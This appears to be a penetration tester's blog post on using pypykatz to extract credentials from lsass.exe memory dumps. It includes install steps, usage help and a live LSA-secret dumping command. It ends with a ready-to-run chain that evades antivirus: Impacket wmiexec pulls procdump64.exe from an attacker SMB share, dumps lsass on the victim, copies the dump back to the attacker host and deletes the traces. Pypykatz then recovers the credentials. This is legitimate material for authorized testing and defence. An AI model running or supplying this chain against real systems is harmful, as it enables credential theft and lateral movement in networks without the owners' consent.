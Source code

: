 ```yaml
---
published: true
comments: true
---
```

I rarely use Mimikatz for more than parsing memory dumps of lsass.exe taken with procdump64.exe. I'm just not going to risk running Mimikatz from CrackMapExec or uploading Mimikatz to the client's environment when I can bypass antivirus by using wmiexec.py from Impacket to upload procdump64.exe, run the command to make a dump file from lsass.exe, and download it to be processed offline using Mimikatz on a system that I control. If this sounds like a lot of extra steps, it is. This post is about using a Python3 library to save yourself some work when processing those lsass.exe dump file to get credentials.

## About pypykatz

Mimikatz implementation in pure Python. -optimized for offline persing, but has options for live credential dumping as well. Runs on all OS's which support python>=3.6

## Installation

Via pip: 


    pip3 install pypykatz

Via Github:

```
pip3 install minidump minikerberos asn1crypto
git clone https://github.com/skelsec/pypykatz.git
cd pypykatz
python3 setup.py install
```

## Usage:

```
usage: pypykatz [-h] [-v] [--json] [-e] [-o OUTFILE] [-k KERBEROS_DIR]
                {minidump,live,rekall} ...

Pure Python implementation of Mimikatz --or at least some parts of it--

positional arguments:
  {minidump,live,rekall}
                        commands
    minidump            Get secrets from LSASS minidump file
    live                Get secrets from live machine
    rekall              Get secrets from memory dump

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose
  --json                Print credentials in JSON format
  -e, --halt-on-error   Stops parsing when a file cannot be parsed
  -o OUTFILE, --outfile OUTFILE
                        Save results to file (you can specify --json for json
                        file, or text format will be written)
  -k KERBEROS_DIR, --kerberos-dir KERBEROS_DIR
                        Save kerberos tickets to a directory.
```

## Examples:

Parsing minidump file of the LSASS process:

```
pypykatz minidump <minidump file>
```



Dumping LIVE system LSA secrets:

```
pypykatz live lsa
```

## Thoughts on using pypykatz vs. Mimikatz for parsing creds from lsass.exe memory dumps

Instead of running wmiexec with multiple commands to upload procdump, dump lsass.exe, download the dump file, and copy that over to a Windows host to use Mimikatz: 

Install pypykatz:
`pip3 install pypykatz`

Run Impacket smbserver.py:
`./smbserver.py -smb2support <share name> <share path with procdump64.exe>`

Run Impacket wmiexec.py:
`./wmiexec.py <domain>/<username>:<password>@<Victim IP> 'copy \\<Attacker IP>\<share>\procdump64.exe . & procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp & copy lsass.dmp \\<Attacker IP>\<share>\ & del lsass.dmp & del procdump64.exe'`

Dump creds from lsass.dmp:
`pypykatz minidump lsass.dmp`
